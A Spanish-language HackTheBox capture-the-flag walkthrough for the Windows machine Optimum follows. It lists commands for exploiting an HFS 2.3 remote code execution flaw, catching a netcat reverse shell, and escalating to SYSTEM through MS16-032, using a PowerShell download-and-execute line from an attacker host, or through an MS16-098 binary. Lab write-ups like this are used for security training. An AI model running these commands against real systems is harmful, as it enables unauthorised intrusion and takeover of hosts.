






HackTheBox
Easy
Windows
HFS
RCE
MS16-032
MS16-098
Optimum
HFS 2.3 vulnerable a RCE; escalada con MS16-032 (Empire) o MS16-098 a NT AUTHORITY\SYSTEM.
cat4clysm
Herramientas utilizadas
nmap
searchsploit
windows-exploit-suggester
netcat
Scanning
root@kali:~$
nmap -sC -sV -p 80 -Pn -n 10.10.10.8 -oN targeted
Puerto 80 - HFS 2.3 RCE
root@kali:~$
searchsploit hfs 2.3
searchsploit -m windows/remote/39161.pyroot@kali:~$
python 39161.py
sudo python3 -m http.server 80
sudo nc -lvp 443
type C:\Users\kostas\Desktop\user.txt.txtEscalada - MS16-032 (Empire)
root@kali:~$
./windows-exploit-suggester.py --database 2020-10-25-mssb.xls --systeminfo systeminfo.txt
Usamos Invoke-MS16032 (Empire) + Invoke-PowerShellTcp (Nishang):
root@kali:~$
wget https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-MS16032.ps1
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1C:\Windows\sysnative\WindowsPowershell\v1.0\powershell.exe iex (New-Object Net.WebClient).DownloadString('http://10.10.14.27/Invoke-MS16032.ps1');
Alternativa - MS16-098

root@kali:~$
wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe
sudo python3 -m http.server 80powershell wget http://10.10.14.27/41020.exe -OutFile 41020.exe
41020.exe
Lecciones aprendidas
- HFS 2.3 tiene un RCE publico; siempre ejecutar el exploit varias veces si no obtiene shell al primer intento.
- El Windows 32-bit vs 64-bit requiere usar sysnative para ejecutar PowerShell correcto.
- Siempre preparar multiples exploits de escalada (MS16-032, MS16-098) por si uno falla.